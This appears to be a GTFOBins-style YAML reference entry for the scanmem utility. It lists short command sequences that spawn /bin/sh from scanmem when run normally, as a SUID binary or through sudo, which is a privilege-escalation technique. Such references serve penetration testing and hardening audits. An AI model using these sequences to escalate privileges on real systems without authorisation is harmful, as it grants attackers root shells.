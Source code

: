 ```yaml
---
functions:
  shell:
    - code: |
        scanmem
        shell /bin/sh
  suid:
    - code: |
        ./scanmem
        shell /bin/sh
  sudo:
    - code: |
        sudo scanmem
        shell /bin/sh
---
```

